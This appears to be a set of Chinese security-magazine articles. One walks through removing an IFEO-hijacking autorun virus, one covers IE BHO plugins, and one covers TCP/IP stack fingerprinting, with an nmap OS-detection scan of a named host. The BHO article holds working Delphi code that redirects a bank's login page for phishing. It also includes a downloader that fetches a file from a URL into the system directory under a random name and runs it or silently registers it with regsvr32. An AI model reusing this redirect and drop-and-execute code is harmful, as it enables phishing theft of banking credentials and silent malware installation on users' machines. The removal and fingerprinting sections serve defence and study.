返回的数字需要转换成二进制，否则是无意义的。我们可以通过向 `/proc/sys/kernel/cap-bound` 中写入字符以设置系统能力。如删除 CAP_SYS_MODULE 能力只需要执行 `echo 0xFFEFFFFF >/proc/sys/kernel/cap-bound`。但这样设置内核能力并不安全，很容易造成误操作，而且需要手动进行进制换算。我们可以通过 lcap 简单地控制内核能力。执行不带参数的 lcap 可以列出系统拥有的能力，执行 `lcap CAP_SYS_MODULE` 则会移除系统的 CAP_SYS_MODULE 能力。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：无  
关键词：病毒、Autorun、映像劫持

### 循序渐进巧解
#### IFEO 映像劫持


文/图 彭文波

在网络冲浪的过程中，我们总会浏览形形色色的网页，偶尔碰到木马或病毒也会成为家常便饭。不过，对于一些比较顽固的、较新的木马病毒，往往也难以找到合适的查杀工具。圣诞节的某一天，在浏览贺卡、接收礼物时，一向小心谨慎的我还是遇到了类似的难题。尽管安装了 Ghost 等系统恢复软件和瑞星等杀毒软件，但 N 次恢复之后仍然毫无进展，杀毒软件也无法运行。

要清理此类顽固病毒，看来就得采用“抽丝剥茧”的方法，找到症结才是解决问题的关键所在。

### “删不掉”的 system.dll

中毒后当然是让人不爽了，按照老办法，单击“工具→文件夹选项”，在弹出的软件界面中打开“查看”选项卡，设置选中“显示系统文件夹的内容”，去掉“隐藏受保护的操作系统文件”，同时选中“显示所有文件和文件夹”。很快，发现每个磁盘下都有 autorun.inf 和 system.dll 文件，不过，直接删除文件之后大约 3 秒钟，这两个文件又生成了，看来有进程在时刻监控这两个文件。更郁闷的是，金山毒霸、瑞星等杀毒软件无法启动，注册表也无法打开，重新安装系统后问题依然存在。看来，这个病毒的复制能力是很强的。查看 autorun.inf 文件，具体内容如图1所示。


图1

一般情况下，autorun.inf 是用在光驱上实现光盘自动播放的工具，本身没有恶意作用，但很容易被病毒用于非法传播。在这台电脑上出现非自定义的 autorun.inf 文件，肯定是不正常的。从该文件的字面意义来看，是 rundll32 调用了这个 system.dll 病毒控件。那么，是否存在 .exe 非法文件呢？按照蛛丝马迹仔细查找之后，并没有发现 .exe 的可执行文件，而且系统还可以正常显示系统文件和隐藏文件。尝试通过“msconfig”命令对运行的服务进行设置，依然无法解决问题。重启之后，尝试删除 autorun.inf 和 system.dll 两个文件，依然再生。看来，这个 autorun.inf 和 system.dll 文件还是有点来头的。

通过百度和谷歌搜索以及日期反映，很快发现这在网络上已经不是个别现象了，而且大有蔓延之势。更郁闷的是，网上一时也没有比较理想的解决办法。根据各方资料初步判断，system.dll 病毒是一个结合了“机器狗 AV 终结者和利用 MS08067 漏洞攻击”的复合型下载者病毒。“虾有虾道，蟹有蟹道”，一番摸索之后，肯定会有解决问题的办法。

### 像庖丁解牛一样清除病毒

根据以往的经验，首先要使用专业的工具来了解一下中毒到底有多“深”。这里选择了 SREng（System Repair Engineer），一款计算机安全辅助和系统维护辅助软件，该软件主要用于发现、发掘潜在的系统故障和大多数由于计算机病毒造成的破坏，并提供了许多的修改建议和自动修复方法。软件下载地址为：http://www.kztechs.com。

- 1. 牛刀小试：使用 SREng 了解进程信息

安装并运行 SREng 后，打开第 1 项注册表项，里面有很多已经用红字标注的那些被病毒添加的注册表项。运行 SREng 后，查看启动项，可以发现许多类似“IFEO[anti.exe]”的红色提示信息，如图2所示。


图2

看来，电脑所中的病毒和 IFEO 有关。所谓的 IFEO，就是 Image File Execution Options，是位于注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项，由于该项主要用来调试程序，所以对一般用户意义不大。结合上述分析判断，这些红色标记启动项很可能在上述注册表项中。除了上述的注册表启动项，还有一些如 services.exe、system.exe 之类的进程，这些可能也是病毒程序添加的。对于这些可疑的注册表项，当然是希望能够尽快删除了。不过，现在的问题在于，无法打开注册表，也就谈不上对注册表进行有效操作了。直接使用 SREng 按“Shift”键连续选择并删除，刷新之后问题依然存在。看来，这些注册表开机运行项并不是能够轻易删除的。不过，初次的尝试也略有收获，那就是“Image File Execution Options”中的大量安全软件都被“劫持”了，所以大部分杀毒软件无法启动。

- 2. 蛛丝马迹：通过日志判断非法的病毒程序

SREng 提供了智能扫描功能，通过它的日志也许能够找出一些蛛丝马迹。单击软件界面左侧的“智能扫描”按钮，出现了一个智能扫描界面，选择相关扫描选项后，单击“扫描”按钮，很快生成了一份日志报告，如图3所示。通过日志分析，发现了许多可疑的内容，尤其是“正在运行的进程”中，频繁出现以下语句：


图3

“[C:\WINDOWS\system32\TcplpDog0.dll]”，初步可以判断该文件有问题。其典型日志信息如下：

```text
// 正在运行的进程
[PID: 716 / SYSTEM][C:\WINDOWS\system32\lsass.exe] [(Verified) Microsoft Corporation, 5.1.2600.2180]
[C:\WINDOWS\system32\TcplpDog0.dll] [N/A]
[PID: 972 / NETWORK SERVICE][C:\WINDOWS\system32\svchost.exe] [(Verified) Microsoft Corporation, 5.1.2600.2180]
[C:\WINDOWS\system32\TcplpDog0.dll] [N/A]
[PID: 1104 / NETWORK SERVICE][C:\WINDOWS\system32\svchost.exe] [(Verified) Microsoft Corporation, 5.1.2600.2180]
[C:\WINDOWS\system32\TcplpDog0.dll] [N/A]
[PID: 1192 / LOCAL SERVICE][C:\WINDOWS\system32\svchost.exe] [(Verified) Microsoft Corporation, 5.1.2600.2180]
[C:\WINDOWS\system32\TcplpDog0.dll] [N/A]
[PID: 1956 / SYSTEM][C:\WINDOWS\system32\inetsrv\inetinfo.exe] [(Verified) Microsoft Corporation, 5.1.2600.2180]
[C:\WINDOWS\system32\TcplpDog0.dll] [N/A]
```

> **DLL 与病毒。**DLL 是一种磁盘文件，以 `.dll`、`.drv`、`.fon`、`.sys` 和许多以 `.exe` 为扩展名的系统文件都可以是 DLL。一般来说，DLL 由全局数据、服务函数和资源组成，在运行时被系统加载到调用进程的虚拟空间中，成为调用进程的一部分。由于 DLL 具有占用内存小、易被调用等特点，常被恶意程序利用；DLL 动态链接库通常不能直接运行，也不能接收消息，必须由其他模块调用其导出函数后才能发挥作用。

通过查看各个进程调用的 DLL 动态链接库，现在基本可以确定非正常的文件为 TcplpDog0.dll。这里的 TcplpDog0.dll 是启动项初始化动态链接库，但是有病毒通过修改 TcplpDog0.dll 来执行，通过修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项，可以误导某些可执行程序的路径。看来，这就是我所遇到的所谓“映像劫持”了。但是，目前大部分的进程都在使用那个文件，该怎么办呢？

- 3. 锁定目标：斩断非法文件之间的联系

当然，直接删除肯定会存在一些问题，系统提示“无法删除 TcplpDog0，访问被拒绝”。出现这种情况的原因是多方面的，比较常见的有：一是程序的某些功能模块正插入到系统进程中，比如某些程序的 DLL 文件或者可执行程序正在运行，此时利用常规手段是无法删除的。二是某个文件正被运行，此时文件的删除也是无法正常进行的。很明显，这里的问题属于前者。不过，“魔高一尺，道高一丈”，现在必须使用强制删除工具了。一般情况下，删除顽固文件时，可以使用 Unlocker 或 IceSword，不过 IceSword 在这里却无法运行。

第1步，使用 Unlocker 删除非法的 TcplpDog0.dll 文件。下载最新的 Unlocker V1.8.7，下载地址为 `http://www.onlinedown.net/soft/24732.htm`。Unlocker V1.8.7 是一个免费的解锁工具，当用户发现有文件或进程无法删除时，可以通过右键菜单中的“Unlocker”进行解锁。值得一提的是，它并非强制关闭程序，而是以解除进程与程序关联性的方式进行，因此不会造成数据丢失。在这里，运行 Unlocker V1.8.7，对相关进程全部解锁，依然不能马上删除该文件，提示“文件不能被删除，在下次重新启动时，你想执行删除操作吗？”单击“确定”按钮，在下次重新启动时，TcplpDog0.dll 文件将会被删除，如图4所示。


图4

第2步，锁定非法的服务名。病毒清理的过程往往是让人头疼的，重启之后再次运行 SREng，删除“Image File Execution Options”下的被劫持文件，删除之后仍然毫无进展。看来，这些病毒文件之间仍然存在着千丝万缕的联系。为了斩断这些文件之间的联系，在 SREng 中，单击左侧的“启动项目”按钮，直接打开“服务”选项卡并单击“驱动程序”按钮。在“驱动程序”界面中，出现了一些比较异常的服务名，如 NsPsDk00、NsPsDk01、NsPsDk02、NsPsDk03、NsPsDk04 等，这些文件应该算是一些典型病毒中的“常客”了，如图5所示。


图5

为了验证这种判断，我下载了一个“360 顽固木马专杀大全”，初步扫描后，发现软件界面也提示 NsPsDk00、NsPsDk01、NsPsDk02、NsPsDk03、NsPsDk04 等文件为木马文件。但是，使用“360 顽固木马专杀大全”删除这些非法文件时却毫无反应。看来，必须尽快斩断这些非法文件之间的联系。重新回到 SREng 中，在“驱动程序”界面选中这些服务名并选中“删除服务”单选按钮，单击右侧的“设置”按钮，逐个删除可疑的服务。同时，对于以“\??\”开头的映像文件路径，设置其驱动启动类型为“disabled（禁用）”，系统提示在重启之后会生效。

第3步，关闭驱动器的自动播放功能。通过上述方法，采用 Unlocker 删除 `C:\Windows\System32` 目录下的 NsPass0.sys、NsPass1.sys、NsPass2.sys、NsPass3.sys、NsPass4.sys、NpPass0.sys 等文件。不过，在频繁的系统重新启动之后，这些文件依然存在，看来，症结应该就在这里了！清理过程中，根据软件的提示频繁重新启动系统。在等待的过程中，也给我一个启发：难道系统重启之后，每次都会自动运行并加载 system.dll 文件？看来，必须马上关闭驱动器的自动播放功能。找到症结之后，问题就好办了。关闭驱动器自动播放的步骤为：单击“开始→运行”，输入“gpedit.msc”打开组策略，依次点击“本地计算机策略→计算机配置→管理模板→系统”。双击右方组策略窗口中的“关闭自动播放”，在打开的窗口中选择“已启用”复选框，并在“关闭自动播放”下拉菜单中选择“所有驱动器”。

- 4. 抽丝剥茧，彻底清除 system.dll 文件

手工清除病毒是很辛苦的，有很多病毒会下载大量的木马，如果一个一个删除，往往会很费力。因此，还是应该让杀毒软件工作起来，而现在的首要问题就是要把运行杀毒软件的障碍彻底清除掉。多方测试之后，依然选择了“360 顽固木马专杀大全”。也许是一种巧合，正在清理木马病毒的时候，软件提示下载最新版本的“360 顽固木马专杀大全 V2.5.3.0”，看来是“天遂人意”也！立即运行“360 顽固木马专杀大全 V2.5.3.0”，单击“扫描”按钮，马上清除了 19 个病毒木马。当然，这里病毒较多的一个原因是盘符比较多，同时，一些无法清除的顽固文件也被列出来了。扫描完毕，单击“清除”按钮，系统重启之后，速度明显提升。

清理完毕，可以看到每个盘下已经没有了 autorun.inf 文件，但是 system.dll 文件依然存在。不过，system.dll 文件已经没有那么顽固了，直接按“Del”键即可清除。删除其他盘符下面的 system.dll 文件后，马上使用 Ghost 对系统进行了恢复。再次打开系统，一切恢复正常了。

通过上面的分析来看，这个“IFEO 劫持”病毒主要采用了一种驱动级技术，属于一种关联性动态嵌入式木马。由于该病毒通过网络浏览等途径注入到浏览器中，因此很容易中毒。如果没有关闭驱动器自动播放，一旦运行了 autorun.inf 后，就会自动运行 system.dll 里的恶意代码或恶意指令，并对杀毒软件进行攻击。此外，在浏览器加载的过程中，也绑定了一些恶意插件，通过一些映像劫持技术使得注册表无法运行，其危害性是显而易见的。不过，通过本文“抽丝剥茧”式的解决办法，在 SREng 等软件的配合下，完全可以举一反三，快速清除病毒文件，从而打造一个安全、稳定而快速的系统。

前置知识：Delphi

关键词：编程、BHO、插件

### 就“一些网民喜欢广告插件”谈 IE BHO 的攻击性


文／图 tlHelen

近几期杂志我写了一些关于 IE BHO 插件的文章和程序，朋友联系上我，和我探讨了一些 BHO 方面的问题，提得最多的问题就是：难道 BHO 仅仅就是你前面所描述的那些功能吗？有没有别的用法？对于他们的学习热情我十分高兴，但在高兴之余，又有点想法。我总认为学习一个知识点，最重要的就是前期的入门和入门后举一反三地大量应用，方能将这个知识点吃深吃透，直至精通。对有没有其他的 BHO 利用方法，也是个仁者见仁、智者见智的问题。在掌握一定的编写方法之后，就到了需要我们开动脑筋、发挥想象的时候，这种地方往往体现的就是我们的创意。

就以前些日子我看到 2007 年很流行的 BHO 劫持 + 钓鱼网站的创意来说，即便是到今日再看，仍觉得回味无穷，需要细细揣摩。

本文不仅是源于上面的原因，还因为我近期看到了一组微软调查的数据报道，真是让人大跌眼镜：“一些网民喜欢广告插件”。我们认为大多数网民讨厌广告插件是合情合理的，但微软公布的最新统计数字显示，并非所有的网民都会积极地卸载广告插件，即使是广告插件已经被安全工具认为可疑后。据微软 2008 年的统计资料显示，一些数年前就发现的恶意件仍然“盘桓”在大量用户的系统中。最常见的恶意软件是 Win32/Winfixer，它的数量超过了排名第 2 的恶意软件 4 倍还多。在排在前 5 位的恶意软件中，有两种是木马下载软件，3 种是广告插件。这是一件多么让人意外的事情啊！

我个人认为这是件非常危险的事情。在我正式讲讲利用 BHO 导致发生危险事件之前，先来看看 2007 年流行的 BHO 技术，重温一下当年学习技术的感觉。

#### BHO 劫持 + 钓鱼网站的组合

钓鱼大家都很熟悉，最常见的就是假冒中国工商银行域名 www.1cbc.com.cn，只是“l”和“1”一字之差。不法分子通过设立仿冒网站，骗取该行用户的账号和密码，用户一旦输入了账号及密码，资料就落入了网络钓鱼者的手中。当然这是很老套的东西，今天我要说的是通过 BHO 进行网络钓鱼。

如果你使用的是一个没有任何插件的干净 IE，输入任意字母或者中文“工商银行”，IE 会自动查询“http://工商银行/”，IE 会自动补全之前的 http:// 以及最后的“/”。当然，结果很显然，“http://工商银行/”是无法打开的，因此显示“无法显示网页，您正在查找的页当前不可用。网站可能遇到支持问题，或者您需要调整您的浏览器设置。”如果我们能截获“http://工商银行/”并将其定义到英文域名，就完成了中文上网的功能。那么如何截获 IE 地址栏上的数据呢？这就要用到 BHO。

BHO 是一种可以让程序员使用简单代码进入浏览器领域的交互接口。通过 BHO 接口，第三方程序员可以自己编写代码获取浏览器的一些行为（Action）和事件通知（Event），如后退、前进、当前页面等，甚至可以获取浏览器的各个组件信息，像菜单、工具栏、坐标等。由于 BHO 的交互特性，程序员还可以使用代码去控制浏览器的行为，比如常见的修改替换浏览器工具栏、在浏览器界面上添加自己的程序按钮等操作。

看看前面我提到的 BHO 接口特性，我们可以看到 BHO 可以获得和实现 IE 的大部分事件和功能。当然，程序员可以设计出一个 BHO，实现用户点击时通知浏览器跳转到某个页面完成交互功能，当然就可以进一步写出控制浏览器跳转到他想让用户去的页面，这就是最初的“浏览器劫持”的成因：BHO 劫持。

清楚了这一点，我们很容易就想到通过 BHO 劫持 + 网络钓鱼，任何所谓的安全控件都是毫无意义的，无论你输入的网址是否正确，最终进入的网站都是钓鱼网站！以下是实现 BHO 劫持功能的代码。

```pascal
procedure TTIEAdvBHO.DoBeforeNavigate2(const
  pDisp: IDispatch; var URL, Flags, TargetFrameName,
  PostData, Headers: OleVariant; var Cancel: WordBool);
begin
  if URL='https://mybank.icbc.com.cn/icbc/perbank/index.jsp' // 对工商银行网银登录页面进行劫持
  then begin
    Cancel:=True;
    URL:='http://www.baidu.com';
    (pDisp as IWebbrowser2).Navigate2(URL,Flags,TargetFrameName,PostData,Headers);
  end;

  if URL='http://工商银行/*' // 对中文输入工商银行进行劫持
  then begin
    Cancel:=True;
    URL:='http://www.baidu.com';
    (pDisp as IWebbrowser2).Navigate2(URL,Flags,TargetFrameName,PostData,Headers);
  end;
end;
```

可以看到如果用户输入中文“工商银行”的话，就可以把它引入一个自己构造的网站，首页完全模仿工商银行。如果用户是通过进入工商银行首页点链接或通过快捷键等方式直接进入网银登录页面的话，我们可以将其引入自己构建的网银登录页面。至此，很明显通过 BHO 技术，再好的安全控件也无法保证密码不被窃取，因为安全控件根本没有起作用。

除了 BHO 劫持外，还可以利用 BHO 直接修改网页内容，由于方法更隐蔽，所以危害更大，可以直接改变密码提交对象。对此以前我都作了详细阐述，并提供了源代码，大家最好细细地品味源代码，很有用。

上面我们虽然以工商银行作例子，并给了部分代码，进而提到了利用 BHO 来引导用户到假的工行页面，诱使用户输入用户名和密码而取得用户的登录名和密码，但对工行的网银而言，还是要电子支付卡的动态密码才可以支付的，这可是一般人没有办法得到的。所以说，BHO 劫持 + 钓鱼网站在没有电子支付卡的年代还是“功勋卓著”的话，但现在可能就没有太大的用武之地了。

我以前写过一个“编程实现截获 IE 的右键目标另存为来下载运行自己的程序”的文章，在该文中，我已经给出了 BHO 的利用办法，但在 QQ 上还有很多人问我，有什么好的利用方法，我又不能直说，只好拿“仁者见仁，智者见智”的话搪塞他们，主要是留出空间让大家自己想象，不影响大家的创意。同时由于 BHO 的功能非常强大，是把双刃剑，不同的人拿在手中会产生不同的结果，这也或多或少地影响了我向大家展示更多使用技巧的念头。

#### BHO 是把双刃剑

可能大家对“BHO 是把双刃剑”这句话，会有更多的认同感，但具体到有多大的危害性也许体会不深。除了前面我所讲的截获网页数据外，下面就来讲讲利用 BHO 下载指定网站的程序，比如说被下载的程序是个 DDOS 攻击程序，那你的电脑就会沦为别人的肉鸡或帮凶，受别人的控制和利用。这确实是件非常可怕的事情，所以大家以后碰到插件，可要多留个心眼。

#### 编程示例

很多人对编写 BHO 感到很困惑，拿到手不知道怎么办。一方面是关于 BHO 编写方面的资料很少，二是 BHO 属于 COM 接口范畴，而 COM 接口又异常复杂。这给我们学习 BHO 编程带来了很大的困难。其实对编写 BHO 而言，BHO 编写有一套固定的格式，只要我们按照这些固定的格式加入实现这些功能的代码就可以了，不需要对那些固定格式深究为什么要这么写。在逐步地深入后，对照理论知识，就会有更多的理解。

作为 BHO，需要实现两个接口 IObjectWithSite 和 IDispatch，其中 IObjectWithSite 接口可以用来获得浏览器的接口，而 IDispatch 接口则被用来监听浏览器的事件。

作为 IObjectWithSite 的定义，描述方法如表所示。

| 方法 | 描述 |
|---|---|
| HRESULT SetSite (IUnknown* pUnkSite) | 接收 IE 浏览器的 IUnknown 指针。典型实现是保存该指针以备将来使用。 |
| HRESULT GetSite(REFIID riid, void** ppvSite) | 从通过 SetSite() 方法设置的场所中接收并返回指定的接口。典型实现是查询前面保存的接口指针以进一步取得指定的接口。 |

```pascal
cmdTarget: IOleCommandTarget;
Sp: IServiceProvider;
CPC: IConnectionPointContainer;
CP: IConnectionPoint;
begin
  mExecute; // 下载指定程序
  if (Assigned(pUnkSite)) then
  begin
    cmdTarget := (pUnkSite as IOleCommandTarget);
    Sp := (cmdTarget as IServiceProvider);
    if (Assigned(Sp)) then
      // 获得IE的WebBrowser接口
      Sp.QueryService(IWebBrowserApp, IWebBrowser2, IEThis);

    if (Assigned(IEThis)) then
    begin
      IEThis.QueryInterface(IConnectionPointContainer, CPC); // 寻找连接点
      CPC.FindConnectionPoint(DWEBBrowserEvents2, CP);
      CP.Advise(Self, Cookie);
      // 通过Advise方法建立Com自身与连接点的连接
    end;
  end;
  Result := S_OK;
end;
```

- **IObjectWithSite 接口**：IE 加载 BHO 扩展后，会调用 BHO 扩展，把自身的 IUnknown 接口作为参数 pUnkSite 传给扩展。BHO 扩展应该从 pUnkSite 参数中获得浏览器接口 IWebBrowser2，并获得事件连接点接口，对 IE 事件进行监听。调用 Advise 方法后会返回一个 Cookie，退出 IE 时需要用 Cookie 断开监听。之后 IE 会调用 IObjectWithSite 接口的 GetSite 方法获得接口。
- **IDispatch 接口**：在 SetSite 中建立事件监听后，每当 IE 产生新事件，就会调用 IDispatch 接口的 Invoke 方法通知事件类型以及参数，并请求扩展处理事件。对于 BHO 扩展，Invoke 方法通常必须实现，其他未使用接口可返回 E_NOTIMPL。

当 IE 调用 Invoke 方法时，会设定 DispId 参数为事件标识符号，这样就可以知道 IE 发生了什么事件，这个值就是事件类型的标志。程序中的 GetSite 和 SetSite 代码如下：

对 BHO 的唯一严格要求正在于必须实现这一个接口。应避免在调用以上函数时返回 E_NOTIMPL。程序中设定了一个自定义函数 mExecute 来下载并运行程序。下面示例从指定站点下载程序并运行（示例下载网址为本机 IIS 目录模拟），插件从 `http://127.0.0.1/down.txt` 文本中读取下载相关文件及格式（如 DLL 或 EXE）。

```pascal
function TIEVisit.GetSite(const rid: TID; out site: IUnknown): HResult;
begin
  if (Assigned(IEThis)) then
    Result := IEThis.QueryInterface(riid, site)
  else
    Result := E_FAIL;
end;

function TIEVisit.SetSite(const pUnkSite: IUnknown): HResult;
var
  ...
```

```pascal
// 功能：下载程序
procedure mExecute;
var
  lst: TStringList;
  strVerUrl, fileUrl, fileDest, strFormat: string;
begin
  try
    fileurlAddr := 'http://127.0.0.1/down.txt';
    strVerUrl := fileurlAddr;
    strVerUrl := getUrlInterface(strVerUrl);
    ...
  except
  end;
end;
```

```pascal
if strVerUrl = 'error' then Exit;
lst := stringToList(strVerUrl, ';');
fileUrl := Copy(fileurl_addr, 1, RightPos('/', fileurl_addr)) + lst[0];
fileDest := GetSysDir + getNewname(lst[0]);
strFormat := Trim(lst[1]);
if DownloadFile(fileUrl, fileDest) then
begin
  if strFormat = '1' then
    WinExec(pchar('Regsvr32.exe /s ' + fileDest), SW_Normal)
  else
    ShellExecute(0, 'open', pchar(fileDest), '', '', SW_SHOW);
end;

{功能：从右边找到第一个相符的字符串 '/'}
function RightPos(SubStr, S: string): Integer;
var
  i, j, iCount: Integer;
begin
  iCount := 0;
  for i := 0 to Length(S) - 1 do
  begin
    j := Pos(SubStr, S);
    if j > 0 then
    begin
      iCount := iCount + j;
      S := Copy(S, j + 1, Length(S) - j);
    end
    else
      break;
  end;
  Result := iCount;
end;

{功能：得到随机的文件名}
function getNewname(ext:string): string;
var
  i: Integer;
  c: char;
begin
  Result := '';
  Randomize;
  for i := 1 to 10 do
  begin
    c := Chr(97 + random(26));
    Result := Result + c;
  end;
  if (Pos('.dll',ext)<>0) then Result := Result + '.dll'
  else if (Pos('.exe',ext)<>0) then Result := Result + '.exe';
end;

{功能：下载文件}
function getUrlInterface(url: string): string;
var
  ...
```

```pascal
idhttp: TIdHTTP;
begin
  try
    idhttp := TIdHTTP.Create(nil);
    Result := idhttp.Get(url);
    idhttp.Free;
  except
    Result := 'error';
  end;
end;

{功能：变升级文件的格式串}
function stringToList(str: string; limitChar: char): TStringList;
var
  iPos: Integer;
begin
  Result := TStringList.Create;
  iPos := Pos(limitChar, str);
  while iPos <> 0 do
  begin
    Result.Add(Copy(str, 1, iPos - 1));
    delete(str, 1, iPos);
    iPos := Pos(limitChar, str);
  end;
  if limitChar = ';' then
    Result.Add(str);
end;

{功能：取得系统目录}
function getSysDir: string;
var
  p: pchar;
begin
  GetMem(p, 255);
  GetSystemDirectory(p, 255);
  Result := strpas(p) + '\\';
  FreeMem(p);
end;

{功能：下载文件}
function DownloadFile(Source, Dest: string): Boolean;
begin
  try
    Result := UrlDownloadToFile(nil, pchar(Source), pchar(Dest), 0, nil) = 0;
  except
    Result := False;
  end;
end;
```

在示例的程序中，演示下载的是 notepad.exe，下载到系统目录后随机起名并运行。如果下载的是 DDOS 攻击工具呢？当达到一定的数量后，可就要出问题啦。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：无  
关键词：网管、指纹识别、协议

### TCP/IP 堆栈指纹识别技术浅析


文/图 Whitebear @ Freebear Developer Group

在网络安全检测中，识别和防止对方识别操作系统是非常重要的一步。入侵者只有在对对方使用的操作系统有足够的了解后，才可以根据情况选择恰当的攻击步骤。系统管理员若是可以隐藏自己的操作系统类型，则会给攻击者带来极大的麻烦。目前，TCP/IP 堆栈指纹识别作为一种识别准确率很高的技术，被广泛运用于 nmap 等著名安全检测工具中。TCP/IP 堆栈指纹识别分为两种，即主动识别和被动识别。

#### 被动指纹识别

被动 TCP/IP 堆栈指纹识别是一种类似于嗅探的“安静”的指纹识别。它不会向网络中发送任何报文，整个过程仅仅是监听目标主机与其他主机的通信。正因为如此，在共享式网络中可以方便地直接进行此类攻击。但在交换网络中，则必须先通过攻击交换机或对目标主机进行 ARP 欺骗，以使目标主机的流量经过本机。这种方式的堆栈指纹识别是非常隐蔽的，它会监听所有目标主机的流量，检查 IP、ICMP 和 TCP 报文的头部，并据此判断主机操作系统。

对于 TCP 协议来说，各个操作系统的差异主要体现在报头的 Code Bits、Window Size、Urgent Pointer 和 Option 等字段上。举个例子，对我的 FreeBSD 7.1 RELEASE 操作系统来说，TCP 报文头部大致如图 1 和图 2 所示。


图1


图2

再看我在 Windows Server 2003 SP2 下得到的结果，如图 3 和图 4 所示。注意其中的 Window Size、Time to live 和 SYN 报文的 TCP Header Length，它们有着明显的区别。

#### 主动指纹识别

较之被动指纹识别，主动指纹识别则更加准确。同时，因为需要向网络中注入流量的缘故……图3

图4

故也更易被发现。又因为主动识别发送的报文相对特殊，因此有可能被防火墙发现、过滤，甚至欺骗。

主动式指纹识别主要靠向对方主机发送一些特定的报文，并检查对方主机的回应。不同操作系统上往往会对这些特定的报文做出不同的反应，据此可以比消极地分析对方发送的数据更加精确地判断对方的操作系统。应用这个技术的代表软件是 Nmap，下面是它对一台计算机的远程操作系统的判断结果。

```text
bear# nmap -O -v comicz.net
Starting Nmap 4.76 ( http://nmap.org ) at 2009-02-03 09:39 CST
Initiating Ping Scan at 09:39
Scanning 61.129.251.100 [2 ports]
Completed Ping Scan at 09:39, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:39
Completed Parallel DNS resolution of 1 host. at 09:39, 0.01s elapsed
Initiating SYN Stealth Scan at 09:39
Scanning 61.129.251.100 [1000 ports]

Discovered open port 21/tcp on 61.129.251.100
Discovered open port 80/tcp on 61.129.251.100
Increasing send delay for 61.129.251.100 from 0 to 5 due to 11 out of 31 dropped probes since last increase.
Increasing send delay for 61.129.251.100 from 5 to 10 due to max successful tryno increase to 4
Increasing send delay for 61.129.251.100 from 10 to 20 due to max successful tryno increase to 5
Increasing send delay for 61.129.251.100 from 20 to 40 due to max successful tryno increase to 6
Increasing send delay for 61.129.251.100 from 40 to 80 due to max successful tryno increase to 7
Increasing send delay for 61.129.251.100 from 80 to 160 due to 1 out of 14 dropped probes since last increase.
Increasing send delay for 61.129.251.100 from 160 to 320 due to max successful tryno increase to 8
SYN Stealth Scan Timing: About 35.16% done; ETC: 09:40 (0:00:55 remaining)
SYN Stealth Scan Timing: About 49.11% done; ETC: 09:41 (0:01:29 remaining)
Discovered open port 1433/tcp on 61.129.251.100
SYN Stealth Scan Timing: About 75.60% done; ETC: 09:42 (0:00:57 remaining)
Completed SYN Stealth Scan at 09:44, 306.58s elapsed (1000 total ports)
Initiating OS detection (try #1) against 61.129.251.100
adjust_timeouts2: packet supposedly had rtt of 4294670709 microseconds. Ignoring time.
adjust_timeouts2: packet supposedly had rtt of 4294673385 microseconds. Ignoring time.
Retrying OS detection (try #2) against 61.129.251.100

Host 61.129.251.100 appears to be up ... good.
Interesting ports on 61.129.251.100:
Not shown: 984 closed ports
PORT     STATE    SERVICE
21/tcp   open     ftp
42/tcp   filtered nameserver
80/tcp   open     http
135/tcp  filtered msrpc
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
593/tcp  filtered http-rpc-epmap
901/tcp  filtered samba-swat
1025/tcp filtered NFS-or-IIS
1068/tcp filtered instl_bootc
1433/tcp open     ms-sql-s
1434/tcp filtered ms-sql-m
3128/tcp filtered squid-http
4444/tcp filtered krb524
6129/tcp filtered unknown
6667/tcp filtered irc
Device type: general purpose

Running (JUST GUESSING): Microsoft Windows XP (87%)
Aggressive OS guesses: Microsoft Windows XP SP2 (87%)
No exact OS matches for host (test conditions non-ideal).

Network Distance: 7 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class

Read data files from: /usr/local/share/nmap
OS detection performed. Please report any incorrect results at http://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 315.15 seconds
Raw packets sent: 2153 (98.638KB) | Rcvd: 1655 (88.037KB)
bear#
```

在端口扫描发现对方至少有一个开放端口和一个关闭端口后，操作系统指纹识别就可以用较高的准确率进行了。Nmap 会向对方发送一系列精心构造的 ICMP、TCP 和 UDP 报文，分析对方的响应，从而判断远程操作系统。Nmap 进行的测试包括序列号生成、ICMP 回应、TCP 显式拥塞通知等。它会设置 TCP 头中的各个字段，尝试不同的 Window Size 组合，并将报文发送到远程主机的一个开放端口检查其响应。同时，它也会发送 UDP 报文到关闭端口进行测试。

常见的基于 TCP 的主动指纹识别有 FIN 测试、无效标志测试、初始序列号采样、IP DF 标志测试、TCP 初始 Window Size、ACK 值、ICMP 消息引用、服务类型、分段报文处理和 TCP 头部选项测试等。

FIN 测试会发送一个只包含 FIN 位的包到一个开放端口。按照 RFC793 中的定义，远程主机应当不会响应这个包，事实上绝大多数 Windows、BSD、HP-UX 等操作系统都会发送回一个 RST 包复位这个连接。

Window Size 测试会检测对方主机回应报文中的 Window Size 字段，这个值是可变的。现在的扫描器都会在后续通信中持续追踪它的值，直至能够确定操作系统类型。一般而言，AIX 会返回 0x3F25，Windows 2000、FreeBSD、OpenBSD 会返回 0x402F。

#### 指纹识别的防范

防范被动指纹识别相对复杂。我认为，在开源系统中，可以通过改写操作系统源代码来实现，但这非常麻烦。对于开源和闭源操作系统都适用的方法是让程序自己控制报文，手动填充报文头部，但这样做的工作量也是十分庞大的。因此，防范被动指纹识别应当从防止入侵者进行 sniff 获得目标主机通信入手，而不是欺骗入侵者。

对于主动指纹识别，可以通过防火墙过滤特定报文来实现。正如前文所述，主动指纹识别发送的报文绝大多数都是相当特殊的。通过入侵检测系统可以识别出这些报文，并把它们过滤掉，甚至可以发送伪造的响应以实现欺骗。事实上，通过 FreeBSD 自带的 ipfw 就可以防止某些简单的主动指纹识别。

#### 总结

指纹识别能够进行的原因，来源于各个操作系统厂商在自己的产品上对 TCP/IP 协议实现的不同。因为 RFC 1180 对 TCP/IP 协议栈只是进行了描述，并没有给出一个工业标准，因此各个厂商会根据自己的理解对其进行实现。这些不同的实现导致了在发送和接收报文时报头的微小差异。通过对各个操作系统的广泛分析，可以建立起一个完善的数据库保存这些差异，从而使指纹识别技术成为可能。

前置知识：Linux  
